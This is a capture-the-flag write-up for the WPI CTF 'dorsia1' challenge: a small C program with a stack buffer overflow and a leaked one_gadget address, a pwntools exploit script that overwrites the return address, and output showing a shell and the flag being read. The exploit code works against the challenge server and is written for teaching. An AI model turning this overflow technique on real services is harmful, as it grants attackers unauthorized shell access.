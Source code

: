 We are provided a gif that has code in it.  

```
#include <stdio.h>
#include <stdlib.h>
void main()
{
        char a[69];
        printf("%p\n", system+765772);
        fgets(a,96,stdin);
}
```

Overflow at 69, return address at 77 (69+8)  
After running it once, the printf shows us that the server has it running as a 64bit elf.

It turns out that the value sent over by the printf is a magic gadget, confirmed with one_gadget.  We can just overflow and fill the return with that address to get the shell.

```
from pwn import *

r = remote("dorsia1.wpictf.xyz",31337)
#r = process("./program", env = {'LD_PRELOAD':'./libc.so.6'})
#gdb.attach(r, '''break fgets''')

output = r.recvline()
magic = int(output.rstrip(), 16)

print("received address: " + output)
print("sending payload")

r.sendline('A'*(77) + p64(magic))
r.interactive()
```

Running that script:
```
python exploit.py 
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
system at: 0x7b4cb1bd8440
received address: 0x7b4cb1c9338c
sending payload
[*] Switching to interactive mode
$ pwd
/home/ctf

$ ls
flag.txt
nanobuf
run_problem.sh

$ cat flag.txt
WPI{FEED_ME_A_STRAY_CAT}
```
